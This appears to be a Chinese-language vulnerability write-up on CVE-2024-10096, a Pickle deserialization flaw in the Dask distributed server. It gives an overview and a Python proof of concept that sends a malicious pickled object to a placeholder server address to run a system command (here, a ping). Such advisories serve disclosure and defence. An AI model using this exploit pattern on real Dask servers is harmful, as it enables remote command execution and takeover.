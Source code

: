 **九、CVE-2024-10096**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞概述**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
在 Dask 分布式服务器中，使用了 Pickle 序列化作为数据传输手段，这可能导致攻击者能够构造恶意对象。这些对象在客户端被序列化后发送到受害者的服务器进行反序列化，从而实现命令执行并获得对 Dask 服务器的完全控制。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞CVSS**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIModoUicNO3Sdgvu8dkEzKNibkgWfx5ibGwc5KYh2dyenrm10xV4DwCNqA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞细节**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
**触发点：**  
  
Pickle 序列化：  
Dask 使用 Pickle 进行数据序列化和反序列化。由于 Pickle 可以执行任意代码，攻击者可以通过构造恶意对象来实现命令执行。  
  
**概念验证：**  
  
以下代码展示了如何利用该漏洞进行命令执行：  
```
from dask.distributed import Client
import os

client = Client('tcp://x.x.x.x:8786')

class PickleRce:
    def __reduce__(self):
        return (__import__('os').system, ("ping google.com",))

my_object = PickleRce()
scattered_data = client.scatter(my_object)

future = client.submit(PickleRce(),)
result = future.result()
print(f"Result from remote task: {result}")

client.close()
```  
  